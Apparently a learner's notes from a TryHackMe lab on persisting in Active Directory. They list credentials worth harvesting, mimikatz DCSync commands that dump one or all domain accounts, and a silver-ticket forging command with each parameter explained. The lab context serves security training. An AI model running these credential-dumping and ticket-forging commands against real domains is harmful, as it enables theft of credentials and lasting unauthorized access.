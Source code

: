 sc.exe \\thmrootdc.tryhackme.loc  start THMservice-3243









############## Persisting Active Directory #########

we should attempt to persist through credentials such as the following:

Credentials that have local administrator rights on several machines. Usually, organisations have a group or two with local admin rights on almost all computers. These groups are typically divided into one for workstations and one for servers. By harvesting the credentials of members of these groups, we would still have access to most of the computers in the estate.
Service accounts that have delegation permissions. With these accounts, we would be able to force golden and silver tickets to perform Kerberos delegation attacks.
Accounts used for privileged AD services. If we compromise accounts of privileged services such as Exchange, Windows Server Update Services (WSUS), or System Center Configuration Manager (SCCM), we could leverage AD exploitation to once again gain a privileged foothold.


mimikatz 
 lsadump::dcsync /domain:za.tryhackme.loc /user:<Your low-privilege AD Username>
 lsadump::dcsync /domain:za.tryhackme.loc /all





 # Persistence through Tickets
get all parameters
Get-ADDomain

domain name
domain sid 
user id 


silver ticket
the generated TGS is signed by the machine account of the host we are targeting.


kerberos::golden /admin:StillNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /target:<Hostname of server being targeted> /rc4:<NTLM Hash of machine account of target> /service:cifs /ptt

    /admin - The username we want to impersonate. This does not have to be a valid user.
    /domain - The FQDN of the domain we want to generate the ticket for.
    /id -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.
    /sid -The SID of the domain we want to generate the ticket for.
    /target - The hostname of our target server. Let's do THMSERVER1.za.tryhackme.loc, but it can be any domain-joined host.
    /rc4 - The NTLM hash of the machine account of our target. Look through your DC Sync results for the NTLM hash of THMSERVER1$. The $ indicates that it is a machine account.
    /service - The service we are requesting in our TGS. CIFS is a safe bet, since it allows file access.
    /ptt - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be used.
